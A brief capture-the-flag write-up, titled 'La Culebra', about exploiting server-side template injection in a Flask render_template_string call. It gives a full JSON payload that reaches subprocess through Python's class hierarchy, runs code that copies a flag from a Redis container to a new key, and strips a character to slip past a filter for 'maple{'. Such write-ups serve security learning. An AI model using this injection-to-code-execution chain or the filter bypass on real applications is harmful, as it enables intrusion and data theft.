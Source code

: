# La Culebra

## TL;DR

* SSTI in `render_template_string` but if you RCE, the flag isn't in the current container (it's a key in the redis store, which is in a different container)
* SSTI a subprocess to copy the flag value to another key, then read that key

```json
{"snake": "noodle", "description": "{{().__class__.__base__.__subclasses__()[394]([\"python3\", \"-c\", \"import redis; import base64; red = redis.Redis(host='redis', port=6379); flag = red.get('flag'); red.set('ok', base64.b64encode(flag[1:]))\"])}}"}
```

Multiple SSTI payloads are available and can work here - in this case, I'm setting a key called 'ok' with the flag value, but removing the first character to bypass the explicit checks for `maple{`.